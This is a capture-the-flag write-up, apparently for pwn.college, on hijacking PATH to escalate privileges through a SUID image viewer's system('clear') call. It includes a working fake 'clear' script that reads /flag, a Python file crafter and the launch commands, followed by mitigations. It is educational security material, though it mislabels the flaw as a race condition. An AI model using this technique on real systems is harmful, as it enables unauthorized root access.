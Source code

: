 # **Write-Up: Exploiting SUID Privilege Escalation in cimg Viewer**

## **Challenge Overview**
The challenge involves exploiting a custom image viewer (`/challenge/cimg`) that processes `.cimg` files. The binary has the **SUID bit set**, meaning it executes with root privileges regardless of who runs it. The vulnerability lies in **improper privilege management** in the `handle_6` function, allowing us to hijack a `system("clear")` call to read the protected `/flag` file.

---

## **Key Vulnerabilities**
1. **SUID Misconfiguration**  
   - The binary runs as root (`-rwsr-xr-x`), but drops privileges **after** calling `system("clear")`.
   - This creates a **race condition** where our malicious `clear` command executes with root privileges.

2. **Unsafe `system()` Call**  
   - `handle_6` calls `system("clear")` **before** dropping privileges (`setuid()`).
   - The command is resolved via `PATH`, which we control.

3. **Lack of Path Hardening**  
   - The program doesn’t use absolute paths (`/usr/bin/clear`), allowing `PATH` hijacking.

---

## **Exploit Strategy**
### **1. Hijack the `clear` Command**
Since `system("clear")` relies on the `PATH` environment variable, we:
1. Create a fake `clear` script in `/tmp/exploit`.
2. Prepend `/tmp/exploit` to `PATH` so our script executes instead of `/usr/bin/clear`.

### **2. Preserve Root Privileges**
The SUID binary runs our `clear` script **before** dropping privileges, giving it temporary root access to read `/flag`.

### **3. Bypass Permissions**
The fake `clear` script must be **executable** (`chmod 755`), or `system()` will ignore it.

---

## **Step-by-Step Exploit**
### **1. Prepare Malicious `clear` Command**
```bash
mkdir -p /tmp/exploit
echo -e '#!/bin/sh\ncat /flag' > /tmp/exploit/clear
chmod 755 /tmp/exploit/clear   # Critical: Must be executable!
```

### **2. Craft `.cimg` File to Trigger `handle_6`**
```python
import struct

with open("exploit.cimg", "wb") as f:
    f.write(
        b'cIMG' +                  # Magic header
        struct.pack('<H', 4) +     # Version 4
        struct.pack('BB', 1, 1) +  # Canvas dimensions (1x1)
        struct.pack('<I', 1) +     # 1 directive (handle_6)
        b'\x06\x00' +              # Directive 6 (handle_6)
        b'\x00'                    # Dummy byte
    )
```

### **3. Execute the Exploit**
```bash
export PATH=/tmp/exploit:$PATH  # Hijack PATH
/challenge/cimg exploit.cimg    # Runs with SUID root
```

**Expected Output:**  
The flag is printed:
```
pwn.college{flag}
```

---

## **Why This Worked**
1. **SUID Context**  
   - The binary runs as root, so `system("clear")` executes our payload with root privileges.

2. **PATH Manipulation**  
   - By prepending `/tmp/exploit` to `PATH`, we ensure our malicious `clear` runs instead of the system one.

3. **File Permissions**  
   - `chmod 755` ensures the fake `clear` is executable. Without this, `system()` would ignore it.

4. **Race Condition**  
   - `system()` is called **before** `setuid()`, so our payload runs before privileges drop.

---

## **Mitigations**
To prevent this attack:
1. **Drop Privileges Early**  
   Call `setuid()` **before** any `system()` or external command execution.

2. **Use Absolute Paths**  
   Replace `system("clear")` with `system("/usr/bin/clear")`.

3. **Sanitize Environment**  
   Reset `PATH` inside the program:
   ```c
   setenv("PATH", "/usr/bin:/bin", 1);
   ```

---

## **Key Takeaways**
1. **SUID binaries are dangerous** if privileges aren’t dropped correctly.
2. **`system()` is risky**—use `execve()` with full paths instead.
3. **Environment variables (`PATH`) are attacker-controlled**—always sanitize them.

This challenge demonstrates how **privilege management flaws** can lead to full system compromise. Well done on exploiting it! 🚩
